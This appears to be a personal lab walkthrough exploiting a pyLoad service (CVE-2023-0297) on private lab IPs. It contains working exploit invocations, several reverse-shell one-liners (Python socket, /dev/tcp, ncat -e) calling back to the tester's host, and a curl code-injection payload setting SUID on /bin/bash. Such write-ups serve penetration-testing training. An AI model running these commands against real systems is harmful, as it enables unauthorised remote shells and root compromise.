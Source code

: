 Confirmed this URL exists
![[Pasted image 20231110023042.png]]

Learn Exploit
```sh
python 51532.py -h
```
	usage: 51532.py [-h] -u URL -c CMD
	optional arguments:
	  -h, --help  show this help message and exit
	  -u URL      Target url.
	  -c CMD      Command to execute.

Run exploit 
```sh
python 51532.py -u http://192.168.181.26:9666 -c id
```

![[Pasted image 20231110023207.png]]
Confirm exploit worked since this seems like a blind confirmation

Retry with reverse shell. Python is fitting due to pyLoad
https://revshells.com
	My IP: 192.168.45.241

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.241",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

 Run it (remove trailing `/`
```sh
python 51532.py -u http://192.168.181.26:9666 -c "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.241",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'"
```
	Nope
			Keep trying revshells until one takes
				sh -i >& /dev/tcp/192.168.45.241/4444 0>&1

```sh
python 51532.py -u http://192.168.181.26:9666 -c "sh -i >& /dev/tcp/192.168.45.241/4444 0>&1"
```
Need to remember to quote "the command"

ncat seems to be on target server
```sh
python 51532.py -u http://192.168.181.26:9666 -c "ncat 192.168.45.241 4444 -e sh"
```
![[Pasted image 20231110024708.png]]

curl method to deliver the payload from a russian fourm
```sh
curl -i -s -k -XPOST --data-binary 'jk=pyimport%20os;os.system("chmod%20u%2bs%20/bin/bash");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' 'http://192.168.181.26:9666/flash/addcrypted2'
```
	https://attackerkb.com/topics/4G0gkUrtoR/cve-2023-0297
